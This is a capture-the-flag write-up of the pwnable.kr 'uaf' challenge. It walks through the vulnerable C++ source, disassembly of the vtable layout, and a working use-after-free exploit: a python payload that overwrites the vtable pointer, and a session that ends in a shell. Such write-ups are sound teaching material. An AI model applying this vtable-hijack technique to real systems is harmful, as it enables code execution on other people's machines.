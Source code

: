 ```yaml
---
title: UAF - Pwnable.kr
date: 2016-09-06
categories: [Writeups, Pwnable.kr]
tags: ['UAF']
image:
    path: "/unsorted/pwnablekr.png"
---
```


Let's have a look to the code of `uaf.cpp`:
   
```c
#include <fcntl.h>
#include <iostream>
#include <cstring>
#include <cstdlib>
#include <unistd.h>
using namespace std;

class Human{
private:
    virtual void give_shell(){
        system("/bin/sh");
    }
protected:
    int age;
    string name;
public:
    virtual void introduce(){
        cout << "My name is " << name << endl;
        cout << "I am " << age << " years old" << endl;
    }
};

class Man: public Human{
public:
    Man(string name, int age){
        this->name = name;
        this->age = age;
        }
        virtual void introduce(){
        Human::introduce();
                cout << "I am a nice guy!" << endl;
        }
};

class Woman: public Human{
public:
        Woman(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout << "I am a cute girl!" << endl;
        }
};

int main(int argc, char* argv[]){
    Human* m = new Man("Jack", 25);
    Human* w = new Woman("Jill", 21);

    size_t len;
    char* data;
    unsigned int op;
    while(1){
        cout << "1. use\n2. after\n3. free\n";
        cin >> op;

        switch(op){
            case 1:
                m->introduce();
                w->introduce();
                break;
            case 2:
                len = atoi(argv[1]);
                data = new char[len];
                read(open(argv[2], O_RDONLY), data, len);
                cout << "your data is allocated" << endl;
                break;
            case 3:
                delete m;
                delete w;
                break;
            default:
                break;
        }
    }

    return 0;
}
```


The program displays a simple menu and lets us perform one of the following actions in any order we want:
1 - call the method *introduce*
2 - allocate `argv[1]` bytes and fill them with the data read from the file `argv[2]` 
3 - delete `m` and `w`

If we allocate new data (action number 2) after `m` and `w` have been deleted
(action number 3) then we can probably obtain the data pointed by `m` and `w`
to be overwritten by the content of `argv[2]`.  If we can overwrite the content
of `m` and `w` we can also arrange that a call to the method *introduce*
(action number 1) would instead call the method *give_shell*.

In order to do that we need to understand how *introduce* is called. Let's have a look to the assembly code for the action number 1:

```nasm
[0x00400ec4]> pdb @0x400fcd
|           0x00400fcd      488b45c8       mov rax, qword [rbp - m] ; rax = m
|           0x00400fd1      488b00         mov rax, qword [rax]     ; rax = *rax
|           0x00400fd4      4883c008       add rax, 8               ; rax += 8
|           0x00400fd8      488b10         mov rdx, qword [rax]     ; rdx = *rax
|           0x00400fdb      488b45c8       mov rax, qword [rbp - m] ; rax = m
|           0x00400fdf      4889c7         mov rdi, rax             ; rdi = rax
|           0x00400fe2      ffd2           call rdx
|           0x00400fe4      488b45d0       mov rax, qword [rbp - w]
|           0x00400fe8      488b00         mov rax, qword [rax]
|           0x00400feb      4883c008       add rax, 8
|           0x00400fef      488b10         mov rdx, qword [rax]
|           0x00400ff2      488b45d0       mov rax, qword [rbp - w]
|           0x00400ff6      4889c7         mov rdi, rax
|           0x00400ff9      ffd2           call rdx
|       ,=< 0x00400ffb      e9a9000000     jmp 0x4010a9
```


The first two lines are used to fill the register `rax` with the first eight
bytes of the memory pointed by `m`, this last points to an instance of the
class *Man*. Then the value of `rax` is incremented by eight, passed to `rdi`
and used by the *call* instruction: this must be the address of the method *introduce*.
Furthermore the address pointed by `m` is passed as an argument to the method *introduce* trough the register `rdi`: this parameter represents the value of the keyword *this*.

To understand better what's going on, let's check out the constructor of the
class *Man*:

```nasm
[0x00400ec4]> pdf @sym.Man::Man
/ (fcn) sym.Man::Man 83
|           ; var int Age @ rbp-0x24
|           ; var int Name @ rbp-0x20
|           ; var int this @ rbp-0x18
|           ; CALL XREF from 0x00400f13 (sym.main)
|           0x00401264      55             push rbp
|           0x00401265      4889e5         mov rbp, rsp
|           0x00401268      53             push rbx
|           0x00401269      4883ec28       sub rsp, 0x28
|           0x0040126d      48897de8       mov qword [rbp - this], rdi
|           0x00401271      488975e0       mov qword [rbp - Name], rsi
|           0x00401275      8955dc         mov dword [rbp - Age], edx
|           0x00401278      488b45e8       mov rax, qword [rbp - this] ; rax = this
|           0x0040127c      4889c7         mov rdi, rax                ; rdi = rax
|           0x0040127f      e88cffffff     call sym.Human::Human       ; parent's constructor
|           0x00401284      488b45e8       mov rax, qword [rbp - this]
|           0x00401288      48c700701540.  mov qword [rax], 0x401570   ; *rax = 0x401570
|           0x0040128f      488b45e8       mov rax, qword [rbp - this]  
|           0x00401293      488d5010       lea rdx, [rax + 0x10]       
|           0x00401297      488b45e0       mov rax, qword [rbp - Name] 
|           0x0040129b      4889c6         mov rsi, rax
|           0x0040129e      4889d7         mov rdi, rdx
|           0x004012a1      e80afbffff     call sym.std::string::operator_
|           0x004012a6      488b45e8       mov rax, qword [rbp - this]
|           0x004012aa      8b55dc         mov edx, dword [rbp - Age]
|           0x004012ad      895008         mov dword [rax + 8], edx
|           0x004012b0      4883c428       add rsp, 0x28
|           0x004012b4      5b             pop rbx
|           0x004012b5      5d             pop rbp
\           0x004012b6      c3             ret
```

The first value of the object is initialized with **0x401570**, this is the
address of the [vtable](https://en.wikipedia.org/wiki/Virtual_method_table)
for the class Man. Thus a Man instance would look more or less like this:

 - 0x00: Address vtable for Man (0x0000000000401570)
 - 0x08: Age
 - 0x10: &Name (Address a string)

This is the content of the vtable:

```nasm
0x00401570 .qword 0x000000000040117a ; sym.Human::give_shell
0x00401578 .qword 0x00000000004012d2 ; sym.Man::introduce
```

As expected the method *introduce* is the second in the vtable: this explains
the value of `rax` being incremented by eight before being passed to `rdx`. The
first entry in the vtable is the address of the method *give_shell*, so what
about we overwrite the address of the vtable with the address of the vtable
decremented by eight?  The new address would be 0x401570 - 0x8 = 0x401568 but
it needs to be coded using eight bytes in little endian format:

```console
uaf@ubuntu:~$ python -c 'print "\x68\x15\x40\x00\x00\x00\x00\x00"*1024' > /tmp/payload
uaf@ubuntu:~$ ./uaf 1024 /tmp/payload
1. use
2. after
3. free
3
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
1
$ cat flag
yay_****_*****_pwning
```






